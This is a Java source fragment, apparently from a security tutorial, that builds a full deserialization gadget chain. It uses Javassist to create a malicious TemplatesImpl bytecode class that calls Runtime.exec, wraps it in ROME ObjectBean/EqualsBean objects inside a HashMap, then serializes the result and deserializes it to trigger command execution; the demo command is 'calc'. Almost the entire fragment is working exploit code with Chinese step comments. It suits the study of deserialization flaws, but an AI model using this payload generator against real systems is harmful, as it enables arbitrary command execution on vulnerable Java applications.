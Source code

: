 ```java
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public  static  void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public  static  Object  unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        //因为在TemplatesImp类中的构造函数中，_bytecodes为二维数组
        byte[] code = getTemplatesImpl("calc");
        byte[][] bytecodes = {code};
        //创建TemplatesImpl类
        TemplatesImpl templates = new TemplatesImpl();
        setValue(templates,"_name", "aaa");
        setValue(templates, "_bytecodes", bytecodes);
        setValue(templates,"_tfactory", new TransformerFactoryImpl());

        //封装一个无害的类并放入Map中
        ObjectBean snakin = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "snakin"));
        HashMap hashmap = new HashMap();
        hashmap.put(snakin, "snakin");

        //通过反射写入恶意类进入map中
        ObjectBean objectBean = new ObjectBean(Templates.class, templates);
        setValue(snakin, "_equalsBean", new EqualsBean(ObjectBean.class, objectBean));

        //生成payload
        serialize(hashmap);
        //触发payload，验证是否成功
        unserialize("ser.bin");


    }

}
```
